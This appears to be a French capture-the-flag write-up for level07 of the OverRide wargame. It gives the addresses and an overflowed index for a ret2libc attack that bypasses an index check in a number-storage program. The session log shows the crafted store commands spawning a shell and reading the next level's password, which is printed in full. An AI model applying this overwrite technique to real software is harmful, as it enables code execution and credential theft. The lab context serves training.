 Principe de canary + index % 3 bloqué

adresse de debut du buffer => 0xFFFFD574
adresse a overwrite => 0xFFFFD73C
index a rentrer => 1073741938
adress de system => 0xf7e6aed0
adress de bin/sh => 0xF7F897EC


```
evel07@OverRide:~$ ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4159040368
 Index: 115
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ cat /homne/users/level08/.pass
cat: /homne/users/level08/.pass: No such file or directory
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```